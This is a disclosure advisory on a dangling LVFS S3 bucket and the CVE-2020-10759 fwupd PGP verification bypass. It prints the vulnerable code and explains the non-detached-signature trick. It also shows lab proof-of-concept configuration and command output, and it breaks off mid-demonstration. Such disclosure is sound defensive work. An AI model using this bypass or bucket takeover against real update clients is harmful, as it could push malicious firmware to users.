



# Legacy LVFS S3 bucket takeover and CVE-2020-10759 fwupd signature verification bypass

There were two distinct vulnerabilities:

* A **dangling S3 bucket** that belonged to LVFS (Linux Vendor Firmware Service). The dangling bucket is referenced by the default configuration in `fwupd` version &lt;1.0.6 (Released 2018)
* A **PGP signature verification bypass** in all versions of `fwupd` (CVE-2020-10759)

Taken together, these vulnerabilities would have allowed an attacker who
claimed the S3 bucket to **offer malicious firmware updates to Linux desktops
and servers running legacy versions of `fwupd`**.



The dangling bucket has been transferred to the control of the LVFS team.

The PGP verification bypass existed in versions of `fwupd` prior to 1.4.0, and
in `libjcat` used by `fwupd` from 1.4.0 onwards. The vulnerability can be fixed
in `fwupd` prior to 1.4.0 by backporting
<https://github.com/fwupd/fwupd/commit/21f2d12>, and in `fwupd` from 1.4.0
onwards by using a `libjcat` that includes
<https://github.com/hughsie/libjcat/commit/839b89f>


## Impact of the dangling S3 bucket and signature verification bypass vulnerability

Although the dangling S3 bucket only affected `fwupd` clients with a legacy
configuration, there is a large install base of these clients. For example,
Debian Stretch (currently "oldstable") still ships a version that references
the bucket. Over the course of 26 days, the S3 bucket received more than **2.5
million update requests** from over **500,000 unique IP addresses**.

The following graph shows the average number of update requests seen per hour, per week.


The following graph shows the total number of update requests seen per day.



`gnome-software` typically refreshes `fwupd` data once per day, which is
reflected by the 24-hour cyclical traffic pattern in the first graph. The
number of daily update requests in the second graph is ~100,000 excluding
weekends, and so I estimate that there are **at least 100,000 unique `fwupd`
clients reaching out to the dangling S3 bucket**.

Notwithstanding the dangling S3 bucket issue, the signature bypass
vulnerability would also have been exploitable by an attacker who:

* Can compromise HTTPS connections to a `fwupd` metadata repository; or
* Is in a privileged position within a public `fwupd` metadata repository (such as LVFS); or
* Is in a privileged position within a local metadata mirror (such as one belonging to an enterprise)


## Limitations of the vulnerabilities

Some Linux distributions, such as Red Hat Enterprise Linux (RHEL), reportedly
do not ship with a configuration that includes the LVFS metadata repository.

`fwupd` does not install firmware updates for users automatically - the user
must manually accept the updates.

Firmware installation can only be done using prescribed protocols implemented
within `fwupd` itself. It is not possible for an update to execute custom code,
such as a proprietary flasher utility, during firmware installation. However,
the vulnerabilities do give the ability to provide malicious input to an XML
parser and `.cab` file parser which run as root. These code paths were not
thoroughly examined.

Some hardware devices perform their own on-chip verification of firmware
updates (based on a key held by the hardware vendor themselves) which could
prevent the installation of some malicious firmware images.


## Timeline of events

* April 2015 - `fwupd` 0.1.2 is released; includes the commit which introduces the PGP signature verification bypass vulnerability (<https://github.com/fwupd/fwupd/commit/36a8890>)
* August 2016 - `fwupd` 0.7.3 is released; includes the commit which instructs client machines to download firmware metadata from the `lvfsbucket` S3 bucket (<https://github.com/fwupd/fwupd/commit/96e1ea6>)
* March 2018 - `fwupd` 1.0.6 is released; includes the commit which instructs client machines to move away from the `lvfsbucket` S3 bucket (<https://github.com/fwupd/fwupd/commit/4ee0836>)
* November 2018 - reports emerge that the `lvfsbucket` S3 bucket is returning 404 "file not found" errors (<https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=912414>)
* November 2019 - This is when the LVFS project claims that the S3 bucket was deleted
* April 2020 - `fwupd` 1.4.0 is released; includes the commit which moves away from PGP signatures in favour of `jcat` signatures (<https://github.com/fwupd/fwupd/commit/d5aab65>)
* May 2020 - I registered the dangling `lvfsbucket` S3 bucket
* 28 May 2020 - the `fwupd` project is informed of the dangling S3 bucket and signature bypass vulnerabilities
* 29 May 2020 - the `lvfsbucket` S3 bucket is transferred to the `fwupd` project for safe-keeping
* 30 May 2020 - the GnuPG project is contacted regarding the edge-case handling in `libgpgme`
* 2 June 2020 - the GnuPG project responds - this will not be considered a bug in `libgpgme`
* 5 June 2020 - Red Hat assigns CVE-2020-10759 for the signature verification bypass vulnerability
* 5 June 2020 - the `fwupd` signature verification bypass vulnerability is fixed (<https://github.com/fwupd/fwupd/commit/21f2d12>)
* 5 June 2020 - the `libjcat` signature verification bypass vulnerability is fixed (<https://github.com/hughsie/libjcat/commit/839b89f>)
* 9 June 2020 - this advisory is published


## Contents of this advisory

This advisory describes the following:

* What is LVFS?
* What is `fwupd`?
* What is the typical data flow and security model for `fwupd` firmware updates?
* The legacy LVFS S3 bucket takeover vulnerability
* The metadata signature verification bypass vulnerability (PGP) in `fwupd` &lt;1.4.0
* The metadata signature verification bypass vulnerability (`jcat`) in `fwupd` &gt;=1.4.0
* Appendices
    * Appendix A - Theoretical attack scenarios for the S3 bucket takeover + signature verification bypass
    * Appendix B - A PGP Signature Type Primer
    * Appendix C - Whose fault is this anyway?


## What is LVFS?

LVFS (Linux Vendor Firmware Service) is:

> a secure portal which allows hardware vendors to upload firmware updates.
> \[The\] site is used by all major Linux distributions to provide metadata for
> clients such as fwupdmgr and GNOME Software.

(<https://fwupd.org/>)

The LVFS is a metadata repository. It contains:

* Descriptions of hardware, the firmware of which can be updated
* URLs of firmware update files (.cab files) which may be hosted either directly on LVFS or on a third-party website
* Cryptographic hashes of the .cab files

See <https://lvfs.readthedocs.io/en/latest/metainfo.html> for an example of a metadata entry.

The metadata is published as a file named `firmware.xml.gz`. This file can be
verified using a detached PGP signature produced using the LVFS PGP key
(`0x48A6D80E4538BAC2`) or a "jcat" bundle of signatures (PGP and PKCS7) which
will be described later in this advisory.

<https://www.linuxfoundation.org/blog/2019/03/lvfs-project-announcement/> and
<https://youtu.be/u7A7VqQCpIE> give excellent background on the LVFS project.


## What is fwupd?

`fwupd` is:

> a simple daemon to allow session software to update device firmware on your
> local machine. It's designed for desktops, but also usable on phones and
> headless servers. You can either use a GUI software manager like GNOME
> Software to view and apply updates, the command-line tool or the system D-Bus
> interface directly.

(<https://fwupd.org/lvfs/docs/users>)

`fwupd` is responsible for:

* Checking the PGP (`fwupd` &lt;1.4.0) or jcat (`fwupd` &gt;=1.4.0) signature of the firmware metadata from repositories such as LVFS
* Parsing the XML/AppStream firmware metadata
* Informing the user of firmware updates described in the metadata that are available for their hardware, such as BIOS or Thunderbolt controller updates
* Downloading, unpacking and flashing the firmware updates when requested by the user

The firmware installation occurs over a limited number of protocols implemented
within `fwupd`, such as DFU or Fastboot
(<https://fwupd.org/lvfs/docs/metainfo/protocol>). Importantly, it is not
possible for an individual firmware update to run custom code on the user's
machine, such as a proprietary flasher utility.


## What is the LVFS/`fwupd` data flow and security model?

In a nutshell, the data flow and security model appears to be as follows:

1. Within LVFS
    1. Firmware vendors apply to LVFS and are granted permission to upload firmware metadata for certain hardware `vendor-id` value/s (<https://blogs.gnome.org/hughsie/2019/12/11/improving-the-security-model-of-the-lvfs/>)
    2. Firmware vendors submit Firmware metadata and .cab files to LVFS
    3. LVFS collates the metadata for all vendors into one file (`firmware.xml.gz`) which includes cryptographic hashes of each .cab file
    4. LVFS signs this file to produce a detached PGP signature (`firmware.xml.gz.asc`) and jcat (PGP && PKCS7) signature (`firmware.xml.gz.jcat`)
2. On client machines
    1. `fwupdmgr` or `gnome-software` run as non-root *client utilities*
    2. `fwupd` runs as a root system service
    3. The *client utility* periodically downloads:
        * The `firmware.xml.gz` file, as well as:
        * `fwupd` &lt;1.4.0 - `firmware.xml.gz.asc` (e.g. <https://github.com/fwupd/fwupd/blob/1.3.9/src/fu-util.c#L1266-L1280>)
        * `fwupd` &gt;= 1.4.0 - `firmware.xml.gz.jcat` (e.g. <https://github.com/fwupd/fwupd/blob/1.4.1/src/fu-util.c#L1295-L1315>)
    4. The *client utility* sends the file descriptor of each file to `fwupd` via D-Bus to do an "UpdateMetadata" operation (e.g. <https://github.com/fwupd/fwupd/blob/1.4.1/libfwupd/fwupd-client.c#L1420-L1466>)
    5. `fwupd` checks the detached PGP (e.g. https://github.com/fwupd/fwupd/blob/1.3.9/src/fu-keyring-gpg.c#L279-L316) or jcat signature
        * **This establishes the anchor of trust**. The metadata contains cryptographic hashes (e.g. SHA) of individual firmware updates, and the metadata as a whole is signed by LVFS. This pattern (Signed metadata containing individual checksums) is similar to the `apt` model (<https://wiki.debian.org/SecureApt#Secure_apt_groundwork:_checksums>)
    6. Assuming the signature verification succeeds, `fwupd` parses the XML metadata using "a subset of the AppStream component specification" (<https://lvfs.readthedocs.io/en/latest/metainfo.html>)
    7. `fwupd` scans the system's connected devices and considers the firmware updates available from LVFS
    8. `fwupd` notifies the *client utility* of available firmware updates for the system's connected devices
    9. The user chooses to install the firmware updates via the *client utility*
    10. The *client utility* downloads the .cab file
    10. `fwupd` verifies the .cab file's cryptographic hash against the hash in `firmware.xml.gz`, unpacks it, and flashes the firmware

To put it another way:

* `firmware.xml.gz` is signed as `firmware.xml.gz.asc` or `firmware.xml.gz.jcat`
* `firmware.xml.gz` describes the updates available for various hardware devices, provides a download URL for each update (`.cab` file), and provides cryptographic hashes of the `.cab` files
* The firmware `.cab` files contain flashable firmware update files
* If a firmware `.cab` file's hash matches the hash listed in `firmware.xml.gz`, and the signature of `firmware.xml.gz` is correct, then the `.cab` file can be considered trustworthy

For more information on this security model, see
<https://blogs.gnome.org/hughsie/2016/05/24/lvfs-technical-white-paper/>

Consider the case in which an attacker controls the contents of
`firmware.xml.gz`, and can sign the file or bypass the signature verification
process. The attacker could advertise malicious firmware updates for various
hardware products. If a user chooses to install a malicious update, the
attacker could compromise the user's hardware, violating the integrity of the
user's system.


## Vulnerability: Legacy LVFS S3 bucket takeover (https://s3.amazonaws.com/lvfsbucket/)

Releases of `fwupd` ship with URLs of firmware repositories, such as LVFS.
These are the URLs from which information about firmware updates should be
downloaded.

* From version 0.7.3 to 1.0.5, the LVFS URL was <https://s3.amazonaws.com/lvfsbucket/downloads/firmware.xml.gz>
* From version 1.0.6 onwards, the LVFS URL was changed to <https://cdn.fwupd.org/downloads/firmware.xml.gz>

This change occurred in commit <https://github.com/fwupd/fwupd/commit/4ee0836>
(28 February 2018) to allow the LVFS project to move from Amazon S3 to an
alternative CDN.

Some Linux distributions (e.g. Red Hat Enterprise Linux) reportedly do not ship
`fwupd` configured to use the LVFS metadata URL.

It was reported to the project in November 2018
(<https://github.com/fwupd/fwupd/issues/831>) that downloads from the old URL
were failing with 404 errors. The project's solution was for users to update
`fwupd`; or nag their distro to backport a fix. A bug against Debian Stretch
(which is currently "oldstable") was opened in October 2018 at
<https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=912414> and is unresolved at
the time of writing.

After the migration away from the Amazon S3 hosting arrangement, the LVFS
project **deleted the `lvfsbucket` S3 bucket**. The LVFS project informed me
during the disclosure process that the S3 bucket was deleted in **November
2019**.

I observed the following in May 2020:

```
$ curl https://s3.amazonaws.com/lvfsbucket/downloads/firmware.xml.gz.asc
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>NoSuchBucket</Code><Message>The specified bucket does not exist</Message><BucketName>lvfsbucket</BucketName> [... SNIP ...]
```

With the bucket having been deleted, it was free for registration by any Amazon
AWS customer. The user who registered the bucket would then **receive the
phone-home update requests from users running legacy `fwupd` clients**.

I registered the bucket in May 2020, and enabled S3 access logging on the
bucket (<https://docs.aws.amazon.com/AmazonS3/latest/dev/ServerLogs.html>)

Over the course of 26 days, the S3 bucket received more than **2.5 million
update requests** from over **500,000 unique IP addresses**.

Note that, during the time in which the I controlled the S3 bucket, **no
content was published from the bucket**. The bucket returned "403 Forbidden"
for every request made to it.

Control of the bucket gives us the following primitives:

* We can provide arbitrary `firmware.xml.gz` metadata files to legacy `fwupd` clients
* We can provide arbitrary `firmware.xml.gz.asc` signature files to legacy `fwupd` clients

To make use of these primitives, we would need to sign `firmware.xml.gz` using
a trusted LVFS key; or we would need a way to bypass the PGP signature checking
in `fwupd`.


### Recommended Fix

The dangling S3 bucket has been transferred to the LVFS project. The LVFS
project should maintain control of this bucket until legacy versions of `fwupd`
are no longer installed in the field. The bucket should not be deleted until it
is safe to do so.


## Vulnerability: Metadata signature verification bypass in `fwupd` &lt;1.4.0

The PGP-based metadata signature verification in `fwupd` &lt;1.4.0 is
vulnerable and can be reliably bypassed. Any **non-detached** signature signed
by **any key** will defeat the verification logic.

Given this vulnerability, an attacker who claimed the above dangling S3 bucket,
or can otherwise put themselves between `fwupd` clients and a metadata
repository, could have provided signed malicious firmware update information to
`fwupd` clients.

The vulnerability relies on the difference between detached and non-detached
PGP signatures. A primer on PGP signature types is provided in Appendix A.

To be taken as an example, the signature verification code is as follows in
`fwupd` 1.3.9

```c
    /* load file data */

    // [SNIP - read the metadata data into 'data']

    // [SNIP - read the metadata signature into 'sig']

    /* verify */
    rc = gpgme_op_verify (self->ctx, sig, data, NULL);
    if (rc != GPG_ERR_NO_ERROR) {
        g_set_error (error,
                 FWUPD_ERROR,
                 FWUPD_ERROR_INTERNAL,
                 "failed to verify data: %s",
                 gpgme_strerror (rc));
        return NULL;
    }


    /* verify the result */
    result = gpgme_op_verify_result (self->ctx);
    if (result == NULL) {
        g_set_error_literal (error,
                     FWUPD_ERROR,
                     FWUPD_ERROR_INTERNAL,
                     "no result record from libgpgme");
        return NULL;
    }

    /* look at each signature */
    for (s = result->signatures; s != NULL ; s = s->next ) {
        g_debug ("returned signature fingerprint %s", s->fpr);
        if (!fu_keyring_gpg_check_signature (s, error))
            return NULL;

        /* save details about the key for the result */
        if ((gint64) s->timestamp > timestamp_newest) {
            timestamp_newest = (gint64) s->timestamp;
            g_string_assign (authority_newest, s->fpr);
        }
    }
    return FU_KEYRING_RESULT (g_object_new (FU_TYPE_KEYRING_RESULT,
                        "timestamp", timestamp_newest,
                        "authority", authority_newest->str,
                        NULL));}
```

(<https://github.com/fwupd/fwupd/blob/1.3.9/src/fu-keyring-gpg.c#L255-L316>)

Though this code has changed over time, all versions follow the same general
pattern.

The verification flow is as follows:

1. The signature verification is done by `gpgme_op_verify()` which is provided by `libgpgme` and is documented at <https://www.gnupg.org/documentation/manuals/gpgme/Verify.html>
    * If `rc = gpgme_op_verify()` fails (i.e. doesn't return `GPG_ERR_NO_ERROR`) the verification is **failed**
2. Details about the verification are fetched using `gpgme_op_verify_result()`
    * If `result = gpgme_op_verify_result()` fails (i.e. returns `NULL`) the verification is **failed**
3. The signatures within `result` are looped over.
    * For each signature, if `fu_keyring_gpg_check_signature()` is unhappy (e.g. the public key was unknown; the signature was bad; the signing key is expired) the verification is **failed**
4. If we get this far, the verification is considered successful

This is arguably a fragile design. A potential attack vector would be to:

* Provide some `data` (xml) and `sig` (asc) data which:
  * Causes `gpgme_op_verify()` (step 1 above) to succeed; and
  * Causes `gpgme_op_verify_result()` (step 2 above) to succeed and to return a `result` with zero signatures
* Due to the fact that there are zero signatures, the `for` loop (step 3 above) will be skipped entirely, and so `fu_keyring_gpg_check_signature()` will not be called, which allows us to skip the fine-grained signature checking
* The function will return "Verification successful" (step 4 above)

We are able to execute this attack due to an edge-case in GPGme (GnuPG Made
Easy) when it tries to verify a normal signature as if it were a detached
signature.

A more robust design would be to:

* Explicitly check that `result->signatures` is non-zero (i.e. at least one signature was observed by `gpgme_op_verify()`); and/or
* Invert the individual signature verification logic. Currently, the code checks to ensure that there are zero "bad" signatures. It would be safer to instead ensure that there is at least one "good" signature. This is the approach taken by `flatpak` <https://github.com/flatpak/flatpak/blob/1.7.2/common/flatpak-oci-registry.c#L2073-L2085>)


### GPGme (GnuPG Made Easy)

GPGme is provided by the GnuPG project. It is a library that wraps the `gpg`
command-line utility and exposes GnuPG functionality to software developers.

`fwupd` uses two GPGme functions:

* `gpgme_op_verify()` which performs GnuPG signature verification
* `gpgme_op_verify_result()` which exposes information about a signature verification

The function signature of `gpgme_op_verify()` is as follows:

```c
gpgme_error_t gpgme_op_verify (gpgme_ctx_t ctx,
                               gpgme_data_t sig,
                               gpgme_data_t signed_text,
                               gpgme_data_t plain)
```

`gpgme_op_verify()` expects to be called as follows:

* When it is verifying a detached PGP signature (as is usually the case for `fwupd`):
    * `sig` should be the detached signature
    * `signed_text` should be the data that was signed
    * `plain` should be `NULL`
* When it is verifying a normal or cleartext PGP signature:
    * `sig` should be the normal or cleartext PGP signature
    * `signed_text` should be `NULL`
    * `plain` should be a "writable data object that will contain the plaintext after successful verification"

Though `fwupd` normally uses `gpgme` to verify a **detached** PGP signature,
under adversarial conditions this is not guaranteed - an attacker can provide
any data for the signature file.

`gpgme_op_verify()` exhibits interesting behaviour when given:

* A normal (i.e. **non-detached**) signature as `sig`
* Any data as `signed_text` (which is a hint to `gpgme` that `sig` should be detached)
* Anything as `plain`

Take, as an example, `fwupd` 1.3.9-4 as is currently packaged in Debian Unstable.

If it is given a **detached signature** for which `fwupd` does not know the
signing key, the verification code **correctly rejects** the signature as
follows:

```c
    /* verify */
    rc = gpgme_op_verify (self->ctx, sig, data, NULL);
    if (rc != GPG_ERR_NO_ERROR) {
        g_set_error (error,
                 FWUPD_ERROR,
                 FWUPD_ERROR_INTERNAL,
                 "failed to verify data: %s",
                 gpgme_strerror (rc));
        return NULL;
    }


    /* verify the result */
    result = gpgme_op_verify_result (self->ctx);
    if (result == NULL) {
        g_set_error_literal (error,
                     FWUPD_ERROR,
                     FWUPD_ERROR_INTERNAL,
                     "no result record from libgpgme");
        return NULL;
    }

    /*  [+] DEBUG TRACE

        gdb-peda$ print *result
        $1 = {
          signatures = 0x5593c66668b0,
          file_name = 0x0,
          is_mime = 0x0,
          _unused = 0x0
        }

        gdb-peda$ print *result->signatures
        $2 = {
          next = 0x0,
          summary = GPGME_SIGSUM_KEY_MISSING,
          fpr = 0x5593c666d290 "88C202B687A57ED3D0109BAFAC92351AF277A464",
          status = 0x9,
          notations = 0x0,
          timestamp = 0x5ecf199e,
          exp_timestamp = 0x0,
          wrong_key_usage = 0x0,
          pka_trust = 0x0,
          chain_model = 0x0,
          is_de_vs = 0x0,
          _unused = 0x0,
          validity = GPGME_VALIDITY_UNKNOWN,
          validity_reason = 0x0,
          pubkey_algo = GPGME_PK_RSA,
          hash_algo = GPGME_MD_SHA512,
          pka_address = 0x0,
          key = 0x0
        }
    */

    /* look at each signature */
    for (s = result->signatures; s != NULL ; s = s->next ) {
        g_debug ("returned signature fingerprint %s", s->fpr);
        if (!fu_keyring_gpg_check_signature (s, error))
            return NULL;

        /* save details about the key for the result */
        if ((gint64) s->timestamp > timestamp_newest) {
            timestamp_newest = (gint64) s->timestamp;
            g_string_assign (authority_newest, s->fpr);
        }
    }
    return FU_KEYRING_RESULT (g_object_new (FU_TYPE_KEYRING_RESULT,
                        "timestamp", timestamp_newest,
                        "authority", authority_newest->str,
                        NULL));}
```

The call to `gpgme_op_verify_result()` returns a list of one signature, for
which we can see the summary is `GPGME_SIGSUM_KEY_MISSING` which will make
`fu_keyring_gpg_check_signature()` unhappy in the fine-grained checking `for`
loop.

Compare this to what happens if we give a **non-detached signature** for which
`fwupd` still does not know the signing key. The verification code
**incorrectly accepts** the signature as follows:

```c
    /* verify */
    rc = gpgme_op_verify (self->ctx, sig, data, NULL);
    if (rc != GPG_ERR_NO_ERROR) {
        g_set_error (error,
                 FWUPD_ERROR,
                 FWUPD_ERROR_INTERNAL,
                 "failed to verify data: %s",
                 gpgme_strerror (rc));
        return NULL;
    }


    /* verify the result */
    result = gpgme_op_verify_result (self->ctx);
    if (result == NULL) {
        g_set_error_literal (error,
                     FWUPD_ERROR,
                     FWUPD_ERROR_INTERNAL,
                     "no result record from libgpgme");
        return NULL;
    }

    /*  [+] DEBUG TRACE

        gdb-peda$ print *result
        $3 = {
          signatures = 0x0,
          file_name = 0x0,
          is_mime = 0x0,
          _unused = 0x0
        }
    */

    /* look at each signature */
    for (s = result->signatures; s != NULL ; s = s->next ) {
        g_debug ("returned signature fingerprint %s", s->fpr);
        if (!fu_keyring_gpg_check_signature (s, error))
            return NULL;

        /* save details about the key for the result */
        if ((gint64) s->timestamp > timestamp_newest) {
            timestamp_newest = (gint64) s->timestamp;
            g_string_assign (authority_newest, s->fpr);
        }
    }
    return FU_KEYRING_RESULT (g_object_new (FU_TYPE_KEYRING_RESULT,
                        "timestamp", timestamp_newest,
                        "authority", authority_newest->str,
                        NULL));}
```

The call to `gpgme_op_verify_result()` still succeeds but it returns a list of
**zero signatures**.

This will cause the fine-grained checking `for` loop to be bypassed, and so
`fu_keyring_gpg_check_signature()` will not be called at all. The verification
function will incorrectly return a successful result.

### Buggy rollback protection

As an aside, during the disclosure process with the `fwupd` project, it was
noted by the project that rollback/replay protections added in
<https://github.com/fwupd/fwupd/commit/f69a4810> should have prevented this
attack from working. In a zero-signature case, such as the case we can trigger,
the verification process will return a default `timestamp` value of 0 to the
calling function, and the calling function *should* reject this value as a
rollback attempt.

However, at
<https://github.com/fwupd/fwupd/commit/f69a4810#diff-300ca38c94199c9239dc835920e466ecR1550>
there is a specific carve-out for cases where the verification function returns
a `timestamp` of 0. This defeats the rollback protection for this specific
case.

This is not, strictly speaking, a vulnerability in the rollback protection.
Putting the signature verification bypass aside, for an attacker to attempt a
rollback attack, they will be replaying old metadata signed by LVFS. This
replayed signature will always have a timestamp associated with it, and so an
attacker should not be able to trigger a rollback attack with a malicious
`timestamp` of 0.

This anti-rollback bug was fixed via <https://github.com/fwupd/fwupd/pull/2150>
during the disclosure process. It breaks the exploit described in this
advisory, and probably breaks any exploit targeting this vulnerability.
However, this anti-rollback fix should not be considered to be a root-cause fix
for the bypass vulnerability.


### Proof of Concept - Signature Bypass

This signature bypass can be demonstrated to be exploitable on:

* `fwupd` 0.7.4-2 (As packaged in Debian Stretch which is currently "oldstable")
* `fwupd` 1.3.9-4 (As packaged in Debian Sid "unstable")

To be absolutely clear - this Proof of Concept was **never performed using the
real `lvfsbucket` bucket**. It was done in an offline environment by tweaking
`fwupd` configuration files.


#### The setup

The following Proof of Concept can be executed in a lab by configuring `fwupd`
to point at a server you control. Importantly, `fwupd` will still expect the
metadata to be signed by LVFS. This is understood to be a common deployment
pattern, allowing organisations to host an internal cache of the LVFS
repository while still ensuring that updates are signed by LVFS.

To do so, edit:

* `/etc/fwupd.conf` on legacy versions of `fwupd` (Set the `DownloadURI` value)
* `/etc/fwupd/remotes.d/lvfs.conf` on modern versions of `fwupd` (Set the `MetadataURI` value)

The Proof of Concept uses a Flask app. The source code is available at
<https://github.com/justinsteven/CVE-2020-10759-poc>

The Flask app presents the following endpoints:

* `/detached_unknown_key`
  * `/firmware.xml.gz`
  * `/firmware.xml.gz.asc` - returns a detached PGP signature which is signed by a fresh throwaway PGP key. Causes `fwupd` to throw an error ("No public key available")
* `/detached_bad_signature`
  * `/firmware.xml.gz`
  * `/firmware.xml.gz.asc` - downloads a genuine detached PGP signature from LVFS and returns it. Causes `fwupd` to throw an error ("Invalid signature")
* `/bypass`
  * `/firmware.xml.gz`
  * `/firmware.xml.gz.asc` - returns a regular PGP signature, signed by a fresh throwaway PGP key. Triggers the bypass in `fwupd`, which causes the XML file to be accepted.

In all cases, the `firmware.xml.gz` endpoint returns a dummy XML document.


#### POC: Debian Stretch (currently oldstable)

`fwupd` v0.7.4-2 is installed. By default it points at the dangling S3 bucket.

```
$ dpkg -l fwupd
Desired=Unknown/Install/Remove/Purge/Hold
| Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
|/ Err?=(none)/Reinst-required (Status,Err: uppercase=bad)
||/ Name           Version      Architecture Description
+++-==============-============-============-=================================
ii  fwupd          0.7.4-2      amd64        Firmware update daemon
```

When the `DownloadURI` setting is pointed at the "Detached Unknown Key"
endpoint, we get a "Unknown key" error when refreshing the metadata:

```
$ grep -P '^DownloadURI' /etc/fwupd.conf
DownloadURI=http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz

$ fwupdmgr refresh
failed to update metadata: Could not check signature 'FD1901F7F13C838C' as no public key
```

When the `DownloadURI` setting is pointed at the "Detached Bad Signature"
endpoint, we get an "Invalid signature" error when refreshing the metadata:

```
$ grep -P '^DownloadURI' /etc/fwupd.conf
DownloadURI=http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

$ fwupdmgr refresh
failed to update metadata: '48A6D80E4538BAC2' is not a valid signature
```

Finally, when the `DownloadURI` setting is pointed at the "Bypass" endpoint,
the signature verification succeeds and the XML parser takes over (Which kicks
out an error due to the malformed dummy XML we're serving up):

```
$ grep -P '^DownloadURI' /etc/fwupd.conf
DownloadURI=http://172.17.24.1:4444/bypass/firmware.xml.gz

$ fwupdmgr refresh
failed to update metadata: Failed to parse XML: Error on line 2: Entity name 'fwupd_poc' is not known
```


#### POC: Debian Sid (unstable)

`fwupd` v1.3.9 is installed. Note that by default it **does not** point at the
dangling S3 bucket.

```
$ fwupdmgr --version
client version: 1.3.9
compile-time dependency versions
        gusb:   0.3.4
        efivar: 37
daemon version: 1.3.9
```

When the `MetadataURI` setting is pointed at the "Detached Unknown Key"
endpoint, we get a "Unknown key" error when refreshing the metadata:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz

$ fwupdmgr refresh
Fetching metadata http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz
Downloading…             [***************************************]
Fetching signature http://172.17.24.1:4444/detached_unknown_key/firmware.xml.gz.asc

Failed to update metadata for lvfs: Could not check signature '7A0A773C9258EC06835050AAB678A713501454FF' as no public key
```

When the `MetadataURI` setting is pointed at the "Detached Bad Signature"
endpoint, we get an "Invalid signature" error when refreshing the metadata:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

$ fwupdmgr refresh
Fetching metadata http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz
Downloading…             [***************************************]
Fetching signature http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz.asc

